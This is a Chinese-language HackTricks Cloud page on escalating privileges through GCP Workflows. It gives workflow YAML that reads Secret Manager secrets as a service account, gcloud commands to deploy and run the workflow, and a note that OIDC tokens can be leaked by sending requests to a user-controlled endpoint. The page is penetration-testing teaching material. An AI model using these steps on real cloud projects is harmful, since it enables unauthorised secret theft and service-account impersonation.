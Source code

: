 # GCP - Workflows Privesc

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## Workflows

基本信息：

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

据我所知，无法通过访问包含与工作流关联的服务账户凭据的元数据端点来获得 shell。然而，可以通过在工作流中添加要执行的操作来滥用服务账户的权限。

可以找到连接器的文档。例如，这是 [**Secretmanager 连接器的页面**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** 在侧边栏中可以找到其他几个连接器。

在这里可以找到一个打印秘密的连接器示例：
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
从CLI更新：
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
如果您收到类似 `ERROR: (gcloud.workflows.deploy) FAILED_PRECONDITION: Workflows service agent does not exist` 的错误，请**等待一分钟再试**。

如果您没有网络访问权限，可以通过以下方式触发并查看工作流的执行： 

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
您还可以检查先前执行的输出以查找敏感信息
{% endhint %}

请注意，即使您收到类似 `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` 的错误，因为您没有该权限，工作流仍然已生成。

### 泄露 OIDC 令牌（和 OAuth？）

根据 [**文档**](https://cloud.google.com/workflows/docs/authenticate-from-workflow)，可以使用工作流步骤发送带有 OAuth 或 OIDC 令牌的 HTTP 请求。然而，就像在 [Cloud Scheduler](gcp-cloudscheduler-privesc.md) 的情况下，带有 Oauth 令牌的 HTTP 请求必须发送到主机 `.googleapis.com`。

{% hint style="danger" %}
因此，**通过指示用户控制的 HTTP 端点泄露 OIDC 令牌是可能的**，但要泄露 **OAuth** 令牌，您需要 **绕过** 该保护。然而，您仍然可以使用连接器或带有 OAuth 令牌的 HTTP 请求 **联系任何 GCP API 以代表 SA 执行操作**。
{% endhint %}

#### Oauth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
{% endcode %}

#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

使用此权限而不是 `workflows.workflows.create`，可以更新已存在的工作流并执行相同的攻击。

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
